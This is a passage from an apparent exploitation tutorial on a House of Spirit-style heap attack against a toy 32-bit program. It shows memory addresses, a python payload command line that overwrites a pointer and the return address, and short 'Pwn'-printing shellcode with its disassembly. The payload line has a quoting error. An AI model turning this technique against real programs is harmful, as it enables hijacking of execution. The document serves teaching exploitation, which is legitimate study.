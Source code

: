```
0xffffcf70:     0x00000003      0xffffd004      0xffffd014      0xf7feb05e
0xffffcf80:     0x00000003      0xffffd004      0xffffcfa4      0x0804a014

PTR1      -> 0xFFFFCF20
PTR2      -> 0xFFFFCF1C (??)
local_age -> 0xFFFFCF24 (sadly overwritten with a NUL character)
EBP       -> 0xFFFFCF28
RET       -> 0xFFFFCF2C
name      -> 0xFFFFCEFC
```
I don’t know how or why GCC decided to put ptr2 between name and ptr1, but this won’t change much the things. Ok, so, ptr1 needs to be set to local_age + 4 (0xFFFFCF28): in this way, the chunk’s address will be 0xFFFFCF20, and its size field will be right where local_age is stored. We need, anyway, to overwrite local_age with its good value (48 in this scenario), as the strcpy destroyed its assigned value by putting the string terminator character there.  

So, the new command line will look like this:  
`./hos` `python -c 'import sys; sys.stdout.write("A2 + "B" * 4  + "\x28\xCF\xFF\xFF" + "\x30")'` `48`   
Once ptr1 gets the value 0xFFFFCF28 and the malloc() is called again, the value 0xFFFFCF28 will be assigned to ptr2 again. As the return value is stored at 0xFFFFCF2C, this means that the bytes 4-7 of name (the variable that is going to be copied inside ptr2 through an sprintf) need to be set to the desired return value: in our case it’s the beginning of a shellcode stored inside the name variable itself (i.e. the address of name: 0xFFFFCEFC).  

As the space inside the name array is very small for my good-old “Pwned!” shellcode, I had to shrink it and adapt to this scenario. Sadly, I had to shorten the printed string to a simple “Pwn”.  
``` asm
 section .text

global _start

_start:
        xor     eax, eax
	jmp     tricky_end

        db      0xFC, 0xCE, 0xFF, 0xFF    ; the new RET value

tricky_start:
        mov     al, 4
        xor     ebx, ebx
        inc     ebx
        pop     ecx
        xor     edx, edx
        mov     dl, 3
        int     0x80
        mov     al, 1
        int     0x80
tricky_end:
        call    tricky_start
        db      'Pwn'
```
```
 $ objdump -d pwn -M intel  

pwn:     file format elf32-i386


Disassembly of section .text:

08048080 :
 8048080:       31 c0                   xor    eax,eax
 8048082:       eb 14                   jmp    8048098 
 8048084:       fc                      cld    
```